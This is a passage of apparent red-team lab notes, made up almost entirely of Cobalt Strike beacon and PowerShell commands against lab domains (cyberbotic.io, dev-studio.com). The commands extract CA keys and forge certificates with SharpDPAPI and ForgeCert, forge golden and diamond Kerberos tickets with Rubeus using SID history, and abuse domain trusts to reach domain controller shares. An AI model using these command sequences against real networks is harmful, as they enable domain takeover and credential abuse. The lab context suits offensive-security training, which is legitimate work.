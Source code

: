 ### Forget Certificates

Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate

> Also you can forge certificates for machines. Combine this with the S4U2self trick to gain access to any machine or service in the domain.

```bash
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine
PS C:\Users\Attacker> C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap
```

## Forest & Domain Trusts

### Parent/Child

> f we have Domain Admin privileges in the child, we can also gain Domain Admin privileges in the parent using a TGT with a special attribute called SID History.

#### Golden Ticket

```bash
beacon> powershell Get-DomainTrust
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid
beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /sids:S-1-5-21-2594061375-675613155-814674916-512 /nowrap
beacon> run klist
beacon> ls \\dc-1.cyberbotic.io\c$
```

#### Diamond Ticket

> If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly because the trusts are transitive.

```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-2594061375-675613155-814674916-519 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```

### One-Way Inbound

```bash
beacon> powershell Get-DomainTrust
beacon> powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName
beacon> powershell Get-DomainForeignGroupMember -Domain dev-studio.com
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120
beacon> powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4 /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap
beacon> run klist
beacon> ls \\dc.dev-studio.com\c$
```